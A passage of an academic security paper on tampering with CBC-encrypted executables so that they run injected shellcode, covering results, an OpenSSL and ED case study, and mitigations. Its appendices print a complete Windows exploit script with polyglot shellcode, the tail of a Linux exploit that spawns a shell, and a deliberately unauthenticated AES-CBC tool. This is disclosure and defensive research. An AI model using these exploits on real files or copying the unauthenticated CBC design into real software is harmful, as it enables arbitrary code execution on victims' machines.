      b"eb0690909090909031c9b103fec9eb10",b"
```

{12}------------------------------------------------

<span id="page-12-0"></span>**Fig. 4.** Exploit on Linux.

```
eb06909090909090b03fcd8075deeb10",b"eb0690909090909031c052eb13",b"
      eb06909090909090686e2f7368eb11",b"eb06909090909090682f2f6269eb11",b
      "eb0690909090909089e3525389e1eb10",b"eb069090909090905289e2b00bcd80
      "]
50
51 # Make 16-byte aligned snippets
52 mod = entry_point % block_size
53 Mtargets = adjust_shell(Mtargets, mod)
54
55 IV = content[:IV_size]
56 skip = content[IV_size:IV_size+entry_point-mod-0x10]
57 rest = content[IV_size+entry_point-mod+len(Mtargets)*0x20-0x10:]
58
59 X1 = calc_X(binascii.hexlify(IV), M1hex)
60 payload = IV + skip
61
62 for m in Mtargets:
63 payload += construct_c_prime(X1, m)
64 payload += Y1
65 payload += rest
66
67 f = open(argv[1], 'wb')
68 f.write(payload)
69 f.close()
70
71 if __name__ == '__main__':
72 main(sys.argv)
```

Executing this PoC to encrypted files enables an attacker to launch a shell on Linux from remote machines when he guesses the correct injection point. Figure [4](#page-12-0) shows that a modified file (the left terminal) accepts arbitrary commands from another Windows machine (the right terminal).

*Result.* We investigated 1,000 ELF files under /bin/ and /sbin/ directories in Ubuntu and CentOS, then found that *injection point* addresses fluctuate in a small range. For example, the *injection point* offset ranges from 0x700 to 0x30280

{13}------------------------------------------------



<span id="page-13-0"></span>**Fig. 5.** Exploit on Windows.

in 64-bit files. The attacker is only required to guess at most fourteen bits of the injection address to insert the exploit code on x86-64. 32-bit files have the addresses from 0x1c0 to 0x18750, which requires to guess only thirteen bits to succeed in the attack. We succeeded in our exploit against 99% of files.

In fact, very few files have large addresses as injection locations. Practically, we assume that most addresses in the executable files fit under 80 percentile. Under this condition, the range of the guess becomes narrower to ten bits in 32-bit and eleven bits in 64-bit Linux.

Furthermore, we believe that the executable files have more than one address to succeed in the attack. The range of the guess would be decreased more by considering additional locations to insert.

### **4.2 Windows**

Our exploit code listed in Appendix [B](#page-22-0) works both to x86 and x86-64 executable files on Windows. We insert a shellcode to open a calculator. In this investigation, we disabled a Windows Defender. We did not aim to bypass anti-virus since it was not our goal in this article.

As we described in Section [3.3,](#page-9-1) the attack works against not only our sample encryption/decryption program [\[1\]](#page-17-9), but an OpenSSL encryption. Figure [5](#page-13-0) shows that our attack opens a calculator to OpenSSL encrypted files.

*Result.* We investigated 1,291 PE files on our Windows machine, then excluded 29 files which we failed to extract *entry point* by objdump -x command. We 

{14}------------------------------------------------

found that successful injection points ranged from 0x10000 to 0x1951ae1 on 32-bit PE files, and from 0x1000 to 0x16ec5dc on 64-bit executable files. When an adversary guesses at most twenty five bits and injects a payload into a correct location, our exploit works either on 32-bit and 64-bit Windows OS.

Practically, injection addresses are not too large in most cases. Assuming that the most addresses fit under 80 percentile, the range of the guess becomes narrower to eighteen bits.

We randomly picked up 100 files to run our exploit. As a result, 67% of the files were exploitable when we guessed a successful location to inject the payload. We observed various reasons for the rest, such as compressed files by a packer (UPX), .Net assembly files (built files for .NET environments), and unintended known plaintext.

# **5 Practicality**

In this section, we present real-world applications of our attacks to show the practicality of our attacks.

### <span id="page-14-0"></span>**5.1 OpenSSL**

In addition to the plain form of CBC encryption which consists of one-block initial vector followed by ciphertexts, we consider a variant that is probably very common : OpenSSL's AES-256-CBC. OpenSSL is one of the most popular implementations of SSL and TLS, however it is also a general cryptographic library. In fact, OpenSSL website describes the command line tools for encryption, and it presents AES-256-CBC as "the most basic way to encrypt a file"[6](#page-14-1) . In fact, it is easy to find many web articles, such as [\[2,](#page-17-10) [3\]](#page-17-11), written in various languages, that recommend to use OpenSSL AES-256-CBC for encrypting your files, as a convenient method without installing dedicated encryption software. For example, a post[7](#page-14-2) entitled as "How to use OpenSSL to encrypt/decrypt files?" received 344k times of views, with an answer (which is marked as the most useful one among other answers) suggesting short one liners using OpenSSL command aes-256-cbc. A large number of web articles and open repositories (e.g. on GitHub[8](#page-14-3) ) recommending OpenSSL's AES-256-CBC for manual file encryption suggest that, people find it useful without noticing (or ignoring) the malleability of CBC. In this regard, our work is to warn such usage of OpenSSL's CBC function for file encryption. Of course, the use of OpenSSL itself is not necessarily a problem. We can securely encrypt files using OpenSSL if it comes with an integrity check, say by HMAC or CMAC, or just implement an authenticated encryption (AE) via OpenSSL.

<span id="page-14-1"></span><sup>6</sup> <https://wiki.openssl.org/index.php/Enc>

<span id="page-14-2"></span><sup>7</sup> [https://stackoverflow.com/questions/16056135/how-to-use-openssl-to](https://stackoverflow.com/questions/16056135/how-to-use-openssl-to-encrypt-decrypt-files)[encrypt-decrypt-files](https://stackoverflow.com/questions/16056135/how-to-use-openssl-to-encrypt-decrypt-files)

<span id="page-14-3"></span><sup>8</sup> <https://gist.github.com/dreikanter/c7e85598664901afae03fedff308736b>

{15}------------------------------------------------

### <span id="page-15-0"></span>**5.2 File Encryption Software**

In file encryption software, CBC mode is commonly used as encryption scheme. As a result of our survey on existing file encryption software, we found that some of them use CBC mode without integrity check. As an example to demonstrate the feasibility of our attack, we chose ED[9](#page-15-1) , which is one of the most popular free software for file encryption in Japan. ED has been developed since 1999 and actively updated. Before our contact, it solely adopted CBC mode without having an integrity check. We successfully injected the backdoor for the arbitrary code execution into a binary file encrypted by ED. We have informed our findings to the developer of ED, and the latest version now supports an integrity check by the HMAC-SHA-1 in addition to the CBC mode.

### **5.3 Storage Encryption**

For storage encryption, an additional integrity check is often hard because we preserve the length: that is, the size of a ciphertext must not be changed after the encryption (in this case IV is derived from the address of a storage sector hence it does not increase the ciphertext length). The most popular choice of length-preserving encryption scheme is XTS, which is a mode of operation for the storage encryption standardized by NIST SP800-38E [\[25\]](#page-18-14) and IEEE P1619 [\[28\]](#page-18-15). XTS has been quite widely deployed, for example Bitlocker in Windows 10[10](#page-15-2) , however, some of the storage encryption products, such as Checkpoint, still support CBC mode in addition to XTS[11](#page-15-3), possibly without the integrity check. This even holds for some file encryption software, such as BestCrypt[12](#page-15-4), where the length preserving is generally not needed.

Since in order to apply our attack to the storage encryption products, we need to reveal the data structure of physical media (e.g. HDD or SSD) and identify the sectors that store the target binary files. This may require a considerable effort and a high-level skill of digital forensics for effective analysis, therefore we do not claim that our attack pose an immediate serious threat to these products. However, we think our research demonstrates a potential risk, as the feasibility of the presented attack is determined only by the difficulty of the digital forensics, and does not rely on any computational-hard cryptographic problem.

# **6 Mitigation**

To prevent our attacks, the most obvious solution is to use CBC mode with an integrity check computed by a message authentication code (MAC) e.g., CMAC or HMAC. We stress that the resulting encryption scheme should be secure as

<span id="page-15-1"></span><sup>9</sup> <http://type74.org/ed.php>

<span id="page-15-2"></span><sup>10</sup> [https://docs.microsoft.com/en-us/windows/security/information](https://docs.microsoft.com/en-us/windows/security/information-protection/bitlocker/bitlocker-overview)[protection/bitlocker/bitlocker-overview](https://docs.microsoft.com/en-us/windows/security/information-protection/bitlocker/bitlocker-overview)

<span id="page-15-3"></span><sup>11</sup> <https://www.checkpoint.com/>

<span id="page-15-4"></span><sup>12</sup> <https://www.jetico.com/>

{16}------------------------------------------------

an *Authenticated Encryption (AE)*, which is a class of encryption scheme that provides confidentiality and integrity. Designing secure AEs require cares to avoid pitfalls. If we combine CBC encryption with an integrity check by a certain MAC function *f*, we should compute *f* over the whole encryption input consisting of the initial vector (IV) and the ciphertext, and the key of *f* must be independent from the key of CBC. This allows a generic composition in a secure way [\[33,](#page-19-14) [38\]](#page-19-15). We also have to care about the specification of padding to avoid padding oracle attack, which is another common pitfall in CBC encryption [\[46\]](#page-19-3). For storage encryption, typically the sector size is 512 or 4,096 bytes, both are multiples of AES's 128-bit block, thus there is no need of padding.

By combining such an integrity check with CBC encryption, our attacks that tamper with some of ciphertext blocks do not work as it will be detected with a high probability. Alternatively, one can use dedicated AE schemes such as GCM and CCM modes.

When we need to preserve the message length (length-preserving property), we recommend to use XTS mode, which has essentially the same computational complexity as CBC. There is some inherent security limitation (see e.g. Rogaway [\[44\]](#page-19-16)). However, XTS is much more robust against malleability attack than CBC. For example, it is not possible to manipulate the decrypted plaintext block to an arbitrary value even with the knowledge of plaintext. Hence, our attacks are not directly applicable to XTS.

# **7 Discussion and Future Work**

The most challenging point of our attack is to guess an injection address from no plaintext information. Especially, Windows operating system requires a broad range to guess. We tried the following ideas to improve success probability against this issue:

*Fixing Injection Point.* Executable files have an address of *entry point* in their header. We tried to tamper with the value to fix the address. However, the previous broken block affected the executable files and we ended up failing to execute the files.

Next, we tried to fix *.text* area which differs between binary files. For instance, Windows PE file has PointerToRawData in Section Table [\[35\]](#page-19-17) to define the *.text* area address. However, the previous sixteen-byte broken values influenced a file execution when we performed the attack to PointerToRawData.

*Using Nop and Jmp Sled.* We attempted to spread long no-operation instructions (a.k.a. NOP sled) with jmp such as *0x9090909090909090909090909090eb10* (Listing [1.2\)](#page-17-12) within an expected *.text* area to make an injection surface wider. Still, we failed the attempt. For instance, opcodes in these sleds were modified before execution on Windows due to an address relocation defined in *.reloc section* [\[35\]](#page-19-17). On Linux machines, the tampered files failed to load shared libraries before the execution when we inserted the shellcode into too different addresses.

{17}------------------------------------------------

- <span id="page-17-12"></span>1 9090909090909090909090909090 no operations
- 2 eb10 jmp 0x12 (next shellcode block)

Although we failed to increase the success possibility by the introduced ideas, the ideas still have a room for improvement and we assume that the attack will become more universal and feasible by sophisticating the ideas and devising new methods. In addition, we did not examine an entropy of the locations that we succeeded in the attack. We may have a chance to decrease the range of guess by analyzing the entropy.

For a further step, we aim to expand our study to disk encryption software. We will continue addressing issues to apply the topic to more realistic situations.

**Acknowledgments.** The authors would like to thank the anonymous referees of ACNS 2020 for their insightful comments and suggestions. The authors also thank JPCERT Coordination Center for their helpful advice. Takanori Isobe is supported by Grant-in-Aid for Scientific Research (B) (KAKENHI 19H02141) for Japan Society for the Promotion of Science and SECOM science and technology foundation.

# **References**

- <span id="page-17-9"></span>[1] <https://github.com/frintaro/ACE-in-Chains>
- <span id="page-17-10"></span>[2] Encrypt and Decrypt Files With Password Using OpenSSL, [https://www.](https://www.shellhacks.com/encrypt-decrypt-file-password-openssl/) [shellhacks.com/encrypt-decrypt-file-password-openssl/](https://www.shellhacks.com/encrypt-decrypt-file-password-openssl/)
- <span id="page-17-11"></span>[3] Encrypt files using AES with OPENSSL, [https://medium.com/@kekayan/](https://medium.com/@kekayan/encrypt-files-using-aes-with-openssl-dabb86d5b748) [encrypt-files-using-aes-with-openssl-dabb86d5b748](https://medium.com/@kekayan/encrypt-files-using-aes-with-openssl-dabb86d5b748)
- <span id="page-17-5"></span>[4] Linux Foundation Referenced specifications, [https://refspecs.linuxfoundation.](https://refspecs.linuxfoundation.org/) [org/](https://refspecs.linuxfoundation.org/)
- <span id="page-17-8"></span>[5] The Metasploit project, <http://www.metasploit.com>
- <span id="page-17-7"></span>[6] Packet storm, <https://packetstormsecurity.com/>
- <span id="page-17-4"></span>[7] PaX address space layout randomization (ASLR), [http://pax.grsecurity.net/](http://pax.grsecurity.net/docs/aslr.txt) [docs/aslr.txt](http://pax.grsecurity.net/docs/aslr.txt)
- <span id="page-17-6"></span>[8] Shellcodes database, <http://shell-storm.org/shellcode/>
- <span id="page-17-3"></span>[9] Ubuntu Wiki - Security/Features, [https://wiki.ubuntu.com/Security/](https://wiki.ubuntu.com/Security/Features#pie) [Features#pie](https://wiki.ubuntu.com/Security/Features#pie)
- <span id="page-17-0"></span>[10] Albrecht, M.R., Degabriele, J.P., Hansen, T.B., Paterson, K.G.: A surfeit of SSH cipher suites. In: Weippl, E.R., Katzenbeisser, S., Kruegel, C., Myers, A.C., Halevi, S. (eds.) ACM CCS 2016. pp. 1480–1491. ACM Press, Vienna, Austria (Oct 24–28, 2016). <https://doi.org/10.1145/2976749.2978364>
- <span id="page-17-2"></span>[11] Albrecht, M.R., Paterson, K.G.: Lucky microseconds: A timing attack on amazon's s2n implementation of TLS. In: Fischlin, M., Coron, J.S. (eds.) EUROCRYPT 2016, Part I. LNCS, vol. 9665, pp. 622–643. Springer, Heidelberg, Germany, Vienna, Austria (May 8–12, 2016). [https://doi.org/10.1007/978-3-662-49890-3\\_24](https://doi.org/10.1007/978-3-662-49890-3_24)
- <span id="page-17-1"></span>[12] Albrecht, M.R., Paterson, K.G., Watson, G.J.: Plaintext recovery attacks against SSH. In: 2009 IEEE Symposium on Security and Privacy. pp. 16– 26. IEEE Computer Society Press, Oakland, CA, USA (May 17–20, 2009). <https://doi.org/10.1109/SP.2009.5>

{18}------------------------------------------------

- <span id="page-18-3"></span>[13] AlFardan, N.J., Paterson, K.G.: Lucky thirteen: Breaking the TLS and DTLS record protocols. In: 2013 IEEE Symposium on Security and Privacy. pp. 526– 540. IEEE Computer Society Press, Berkeley, CA, USA (May 19–22, 2013). <https://doi.org/10.1109/SP.2013.42>
- <span id="page-18-10"></span>[14] Andersen, S., Abella, V.: Part 3: Memory Protection Technologies (2004), [https://docs.microsoft.com/en-us/previous-versions/windows/it](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb457155(v=technet.10))[pro/windows-xp/bb457155\(v=technet.10\)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb457155(v=technet.10))
- <span id="page-18-4"></span>[15] Apecechea, G.I., Inci, M.S., Eisenbarth, T., Sunar, B.: Lucky 13 strikes back. In: Bao, F., Miller, S., Zhou, J., Ahn, G.J. (eds.) ASIACCS 15. pp. 85–96. ACM Press, Singapore (Apr 14–17, 2015)
- <span id="page-18-12"></span>[16] Bhatkar, S., DuVarney, D.C., Sekar, R.: Address obfuscation: An efficient approach to combat a broad range of memory error exploits. In: USENIX Security 2003. USENIX Association, Washington, DC, USA (Aug 4–8, 2003)
- <span id="page-18-7"></span>[17] Bletsch, T.K., Jiang, X., Freeh, V.W., Liang, Z.: Jump-oriented programming: a new class of code-reuse attack. In: Cheung, B.S.N., Hui, L.C.K., Sandhu, R.S., Wong, D.S. (eds.) ASIACCS 11. pp. 30–40. ACM Press, Hong Kong, China (Mar 22–24, 2011)
- <span id="page-18-5"></span>[18] Böck, H.: Pwncloud – bad crypto in the owncloud encryption module (2016), [https://blog.hboeck.de/archives/880-Pwncloud-bad-crypto-in](https://blog.hboeck.de/archives/880-Pwncloud-bad-crypto-in-the-Owncloud-encryption-module.html)[the-Owncloud-encryption-module.html](https://blog.hboeck.de/archives/880-Pwncloud-bad-crypto-in-the-Owncloud-encryption-module.html)
- <span id="page-18-8"></span>[19] Carlini, N., Wagner, D.A.: ROP is still dangerous: Breaking modern defenses. In: Fu, K., Jung, J. (eds.) USENIX Security 2014. pp. 385–399. USENIX Association, San Diego, CA, USA (Aug 20–22, 2014)
- <span id="page-18-11"></span>[20] Cowan, C., Wagle, P., Pu, C., Beattie, S., Walpole, J.: Buffer overflows: Attacks and defenses for the vulnerability of the decade (jan 2000). [https://doi.org/10.1109/DISCEX.2000.821514,](https://doi.org/10.1109/DISCEX.2000.821514) [https://cis.upenn.edu/](https://cis.upenn.edu/~sga001/classes/cis331f19/resources/buffer-overflows.pdf) [~sga001/classes/cis331f19/resources/buffer-overflows.pdf](https://cis.upenn.edu/~sga001/classes/cis331f19/resources/buffer-overflows.pdf)
- <span id="page-18-9"></span>[21] Cowan, C.: StackGuard: Automatic adaptive detection and prevention of bufferoverflow attacks. In: Rubin, A.D. (ed.) USENIX Security 98. USENIX Association, San Antonio, TX, USA (Jan 26–29, 1998)
- <span id="page-18-0"></span>[22] Degabriele, J.P., Paterson, K.G.: Attacking the IPsec standards in encryptiononly configurations. In: 2007 IEEE Symposium on Security and Privacy. pp. 335–349. IEEE Computer Society Press, Oakland, CA, USA (May 20–23, 2007). <https://doi.org/10.1109/SP.2007.8>
- <span id="page-18-1"></span>[23] Degabriele, J.P., Paterson, K.G.: On the (in)security of IPsec in MAC-thenencrypt configurations. In: Al-Shaer, E., Keromytis, A.D., Shmatikov, V. (eds.) ACM CCS 2010. pp. 493–504. ACM Press, Chicago, Illinois, USA (Oct 4–8, 2010). <https://doi.org/10.1145/1866307.1866363>
- <span id="page-18-2"></span>[24] Duong, T., Rizzo, J.: Cryptography in the web: The case of cryptographic design flaws in asp.net. In: 2011 IEEE Symposium on Security and Privacy. pp. 481–489. IEEE Computer Society Press, Berkeley, CA, USA (May 22–25, 2011). <https://doi.org/10.1109/SP.2011.42>
- <span id="page-18-14"></span>[25] Dworkin, M.: Recommendation for Block Cipher Modes of Operation: The XTS-AES Mode for Confidentiality on Storage Devices. Standard, National Institute of Standards and Technology. (2010)
- <span id="page-18-13"></span>[26] eugene: Architecture spanning shellcode, <http://www.ouah.org/archspan.html>
- <span id="page-18-6"></span>[27] Fruhwirth, C.: New Methods in Hard Disk Encryption (2005), [http://clemens.](http://clemens.endorphin.org/nmihde/nmihde-A4-ds.pdf) [endorphin.org/nmihde/nmihde-A4-ds.pdf](http://clemens.endorphin.org/nmihde/nmihde-A4-ds.pdf)
- <span id="page-18-15"></span>[28] Standard for Cryptographic Protection of Data on Block-Oriented Storage Devices. Standard, IEEE Security in Storage Working Group.

{19}------------------------------------------------

- <span id="page-19-12"></span>[29] ixty: xarch\_shellcode, [https://github.com/ixty/xarch\\_shellcode](https://github.com/ixty/xarch_shellcode)
- <span id="page-19-5"></span>[30] Jager, T., Somorovsky, J.: How to break XML encryption. In: Chen, Y., Danezis, G., Shmatikov, V. (eds.) ACM CCS 2011. pp. 413–422. ACM Press, Chicago, Illinois, USA (Oct 17–21, 2011). <https://doi.org/10.1145/2046707.2046756>
- <span id="page-19-13"></span>[31] Kaliski, B.: PKCS 7: Cryptographic Message Syntax Version 1.5. Rfc 2315 (1998)
- <span id="page-19-11"></span>[32] Klein, T.: A Bug Hunter's Diary. No Starch Press (2011)
- <span id="page-19-14"></span>[33] Krawczyk, H.: The order of encryption and authentication for protecting communications (or: How secure is SSL?). In: Kilian, J. (ed.) CRYPTO 2001. LNCS, vol. 2139, pp. 310–331. Springer, Heidelberg, Germany, Santa Barbara, CA, USA (Aug 19–23, 2001). [https://doi.org/10.1007/3-540-44647-8\\_19](https://doi.org/10.1007/3-540-44647-8_19)
- <span id="page-19-9"></span>[34] Lell, J.: Practical malleability attack against CBC-Encrypted LUKS partitions
- <span id="page-19-17"></span>[35] Microsoft: PE Format, [https://docs.microsoft.com/en-us/windows/win32/](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format) [debug/pe-format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)
- <span id="page-19-0"></span>[36] Mitchell, C.J.: Error oracle attacks on CBC mode: Is there a future for CBC mode encryption? In: Zhou, J., Lopez, J., Deng, R.H., Bao, F. (eds.) ISC 2005. LNCS, vol. 3650, pp. 244–258. Springer, Heidelberg, Germany, Singapore (Sep 20–23, 2005)
- <span id="page-19-8"></span>[37] Müller, J., Ising, F., Mladenov, V., Mainka, C., Schinzel, S., Schwenk, J.: Practical decryption exFiltration: Breaking PDF encryption. In: Cavallaro, L., Kinder, J., Wang, X., Katz, J. (eds.) ACM CCS 2019. pp. 15–29. ACM Press (Nov 11–15, 2019). <https://doi.org/10.1145/3319535.3354214>
- <span id="page-19-15"></span>[38] Namprempre, C., Rogaway, P., Shrimpton, T.: Reconsidering generic composition. In: Nguyen, P.Q., Oswald, E. (eds.) EUROCRYPT 2014. LNCS, vol. 8441, pp. 257– 274. Springer, Heidelberg, Germany, Copenhagen, Denmark (May 11–15, 2014). [https://doi.org/10.1007/978-3-642-55220-5\\_15](https://doi.org/10.1007/978-3-642-55220-5_15)
- <span id="page-19-10"></span>[39] One, A.: Smashing the Stack for Fun and Profit. Phrack Magazine **Issue 49** (November 1996)
- <span id="page-19-1"></span>[40] Paterson, K.G., Yau, A.: Padding oracle attacks on the ISO CBC mode encryption standard. In: Okamoto, T. (ed.) CT-RSA 2004. LNCS, vol. 2964, pp. 305–323. Springer, Heidelberg, Germany, San Francisco, CA, USA (Feb 23–27, 2004). [https://doi.org/10.1007/978-3-540-24660-2\\_24](https://doi.org/10.1007/978-3-540-24660-2_24)
- <span id="page-19-7"></span>[41] Paterson, K.G., Yau, A.K.L.: Cryptography in theory and practice: The case of encryption in IPsec. In: Vaudenay, S. (ed.) EUROCRYPT 2006. LNCS, vol. 4004, pp. 12–29. Springer, Heidelberg, Germany, St. Petersburg, Russia (May 28 – Jun 1, 2006). [https://doi.org/10.1007/11761679\\_2](https://doi.org/10.1007/11761679_2)
- <span id="page-19-6"></span>[42] Poddebniak, D., Dresen, C., Müller, J., Ising, F., Schinzel, S., Friedberger, S., Somorovsky, J., Schwenk, J.: Efail: Breaking S/MIME and OpenPGP email encryption using exfiltration channels. In: Enck, W., Felt, A.P. (eds.) USENIX Security 2018. pp. 549–566. USENIX Association, Baltimore, MD, USA (Aug 15–17, 2018)
- <span id="page-19-2"></span>[43] Rizzo, J., Duong, T.: Practical padding oracle attacks. In: WOOT. USENIX Association (2010)
- <span id="page-19-16"></span>[44] Rogaway, P.: Evaluation of Some Blockcipher Modes of Operation. CRYPTREC Report (2011), [https://www.cryptrec.go.jp/estimation/techrep\\_id2012\\_2.pdf](https://www.cryptrec.go.jp/estimation/techrep_id2012_2.pdf)
- <span id="page-19-4"></span>[45] Somorovsky, J.: Systematic fuzzing and testing of TLS libraries. In: Weippl, E.R., Katzenbeisser, S., Kruegel, C., Myers, A.C., Halevi, S. (eds.) ACM CCS 2016. pp. 1492–1504. ACM Press, Vienna, Austria (Oct 24–28, 2016). <https://doi.org/10.1145/2976749.2978411>
- <span id="page-19-3"></span>[46] Vaudenay, S.: Security flaws induced by CBC padding - applications to SSL, IPSEC, WTLS... In: Knudsen, L.R. (ed.) EUROCRYPT 2002. LNCS, vol. 2332, pp. 534–546. Springer, Heidelberg, Germany, Amsterdam, The Netherlands (Apr 28 – May 2, 2002). [https://doi.org/10.1007/3-540-46035-7\\_35](https://doi.org/10.1007/3-540-46035-7_35)

{20}------------------------------------------------

# <span id="page-20-0"></span>**A Encryption and Decryption Program**

We show a sample encryption/decryption program which uses AES-CBC and PKCS 7 padding with no tamper detection. A key used to the encryption/decryption is generated from user input and hmac-sha256 with a fixed-value. Then, the program encrypts and/or decrypts the target file. In the encryption, IV is randomly generated and inserted before the encrypted contents (i.e., the encrypted file size becomes sixteen bytes bigger than the original file). Note that the program requires *pycrypto* library[13](#page-20-1) .

**Listing 1.3.** Encryption and Decryption Program Sample

```
1 #!/usr/bin/env python3
2 # -*- coding: utf-8 -*-
3 import sys, os, binascii, hashlib, hmac
4 from Crypto import Random
5 from Crypto.Cipher import AES
6 from getpass import getpass
7
8 fixed_key = b"CBC attack PoC"
9
10 def is_valid_args(argv):
11 return len(argv) == 3 and (argv[1] == 'e' or argv[1] == 'd') and os.
      path.isfile(argv[2])
12
13 def gen_IV():
14 return Random.new().read(AES.block_size)
15
16 def gen_key(password):
17 return binascii.unhexlify(hmac.new(fixed_key, password, hashlib.
      sha256).hexdigest())
18
19 def padding(s):
20 i = AES.block_size - len(s) % AES.block_size
21 pad = chr(i).encode('utf-8') * i
22 return s + pad
23
24 def unpadding(s):
25 return s[:-s[-1]]
26
27 def is_valid_padding(s):
28 i = s[-1]
29 return 0 < i and i <= AES.block_size and s[-1:]*i == s[-i:]
30
31 def encrypt(p, key, IV):
32 return AES.new(key, AES.MODE_CBC, IV).encrypt(padding(p))
33
34 def decrypt(c, key):
35 IV = c[:AES.block_size]
36 cipher = c[AES.block_size:]
37 return AES.new(key, AES.MODE_CBC, IV).decrypt(cipher)
38
39 def write_file(filename, content):
40 try:
41 f = open(filename, 'wb')
42 f.write(content)
```

<span id="page-20-1"></span><https://pypi.org/project/pycrypto/>

{21}------------------------------------------------

```
43 f.close()
44 return True
45 except:
46 return False
47
48 def main(argv):
49 if not is_valid_args(argv):
50 print("[-] Usage:\n\t$ %s [e Target_file|d Target_file]" % argv
     [0])
51 quit()
52 option = argv[1]
53 filename = argv[2]
54 try:
55 f = open(filename, 'rb')
56 content = f.read()
57 f.close()
58 except IOError:
59 print("[-] Failed to open the target file:", filename)
60 quit()
61
62 password = getpass("Input password: ").encode('utf-8')
63 key = gen_key(password)
64
65 if option == 'e':
66 IV = gen_IV()
67 cipher = encrypt(content, key, IV)
68 if write_file(filename, IV+cipher):
69 print("[+] Encryption is done.")
70 else:
71 print("[-] Failed to create a encrypted file.")
72 else:
73 if len(content) % AES.block_size != 0:
74 print("[-] Encrypted strings must be a multiple of %d in
     length." % AES.block_size)
75 quit()
76 decrypted = decrypt(content, key)
77 if not is_valid_padding(decrypted):
78 print("[-] Incorrect pkcs7 padding.")
79 quit()
80 plain = unpadding(decrypted)
81 if write_file(filename, plain):
82 print("[+] Decryption is done.")
83 else:
84 print("[-] Failed to create a decrypted file.")
85
86 if __name__ == "__main__":
87 main(sys.argv)
```

{22}------------------------------------------------

### <span id="page-22-0"></span>B PoC for Windows

Listing 1.4 is an exploit for x86 and x86-64 files on Windows. It opens a calculator instead of intended actions.

Listing 1.4. PoC for Windows

```
1 #!/usr/bin/env python3
2 # -*- coding: utf-8 -*-
3 import sys, binascii
4 block_size = IV_size = 0x10
5
6 def calc_X(C1, known_plain):
      return format(int(C1, 16) ^ int(known_plain, 16), 'x').zfill(
7
      block_size * 2)
8
9 def construct_c_prime(X, Mtarget):
      return binascii.unhexlify(format(int(X, 16) ^ int(Mtarget, 16), '
10
      x').zfill(block_size * 2))
11
12 def padding(s, pad):
      return binascii.hexlify(pad).zfill(2) * (block_size - len(
13
      binascii.unhexlify(s)))
14
15 def adjust_shell(Mtargets, mod):
      for i in range(len(Mtargets)):
16
           m = Mtargets[i]
17
           m += padding(m, b' \times 90')
18
           Mtargets[i] = m
19
      if mod == 15:
20
           print("[-] Too small space to inject the first snippet of the
21
       shellcode")
22
           quit()
23
      if mod > 0:
           snippet = b"90" * (block_size - mod - 2) + b"eb10"
24
           Mtargets.insert(0, snippet)
25
      return Mtargets
26
27
28 def main(argv):
      if len(argv) != 2:
29
           print("[-] Usage:\n\t$ %s [encrypted file]" % argv[0])
30
31
           quit()
32
33
      try:
           f = open(argv[1], 'rb')
34
           content = f.read()
35
           f.close()
36
      except IOError:
37
           print("[-] Failed to open the file.")
38
           quit()
39
40
41
      try:
           entry_point = int(input("The location to inject: "), 16)
42
      except ValueError:
43
           print("[-] Input hex value. e.g., 0x4f0")
44
```

{23}------------------------------------------------

```
quit()
45
      # The second block is fixed value (32- and 64-bit)
46
      M2hex = b"B800000000000004000000000000000000"
47
      C1hex = content[IV_size:IV_size+block_size]
48
      Y1 = content[IV_size+block_size:IV_size+block_size*2] # The
49
      second correspond cipher block
50
      # Polyglot shellcode for Windows (32- and 64-bit)
      Mtargets = [b"31c0409085c00f85f4020000eb12", b"
51
      fc4883e4f0e80202000041514150eb10", b"5251564831d265488b5260eb13",
       b"488b5218488b5220488b7250eb12", b"480
      fb74a4a4d31c94831c0ac3c61eb10", b"7c022c2041c1c90d4101c1e2db52eb10
      ", b"4151488b52208b423c4801d0eb12", b"8b80880000004885c0eb15", b
      "0f841b0100004801d0508b4818eb11", b"448b40204901d04889c84885c0eb11
      ", b"0f84da00000048ffc9418b3488eb11", b"4801
      d64d31c94831c0ac41c1c90deb10", b"4101c138e075df4c034c2408eb12", b
      "4539d1758258448b40244901d0eb11", b"66418b0c48448b401c4901d0eb12",
       b"418b04884801d0415841585e595aeb10", b"41584159415
      a4883ec204152ffe0eb10", b"5841595a488b12e93cfeffff5deb11", b"48
      ba0100000000000000eb14", b"488d8db802000041ba318b6f87eb11", b"
      ffd5bbf0b5a25641baa695bd9deb11", b"ffd54883c4283c067c0a80fbe0eb11",
       b"7505bb4713726f6a00594189daeb11", b"ffd563616c632e65786500", b
      "31db648b7b308b7f0c8b7f1ceb12", b"8b47088b77208b3f807e0c3375f2eb10
      ", b"89c703783c8b577801c28b7a20eb11", b"01c789dd8b34af01c645eb14",
       b"813e4372656175dceb16", b"817e086f63657375bb8b7a2401c7eb10", b
      "668b2c6f8b7a1c01c78b7caffceb11", b"01
      c789d9b1ff53e2fd6863616c63eb10", b"89e252525353535353535253ffd7"]
52
      # In case the starting address isn't aligned by 16 bytes
53
      mod = entry_point % block_size
54
      Mtargets = adjust_shell(Mtargets, mod)
55
56
      IV = content[:IV_size]
57
      skip = content[IV_size:IV_size+entry_point-mod-0x10]
58
      rest = content[IV_size+entry_point-mod+len(Mtargets)*0x20-0x10:]
59
60
      X1 = calc_X(binascii.hexlify(C1hex), M2hex)
61
      payload = IV + skip
62
63
64
      for m in Mtargets:
           payload += construct_c_prime(X1, m)
65
           payload += Y1
66
      payload += rest
67
68
      f = open(argv[1], 'wb')
69
      f.write(payload)
70
      f.close()
71
72
73 if __name__ == '__main__':
      main(sys.argv)
74
```